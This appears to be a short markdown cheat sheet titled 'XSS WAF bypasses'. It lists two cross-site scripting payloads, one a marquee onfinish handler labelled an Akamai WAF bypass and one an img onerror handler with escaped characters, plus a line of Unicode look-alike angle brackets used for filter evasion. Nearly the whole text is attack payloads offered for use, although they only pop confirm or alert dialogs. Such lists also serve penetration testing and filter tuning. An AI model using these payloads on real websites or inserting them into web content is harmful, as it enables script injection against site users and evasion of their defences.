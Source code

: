 # XSS WAF bypasses

<marquee/loop=1+width=0+onfinish=[document.domain].map(confirm)> Akami WAF bypass.<br>
<img/src/onerror=self\[\'alert\'\]\(document.domain\)>

＜⧀ ﹤ ﹥ ⧁ ＞

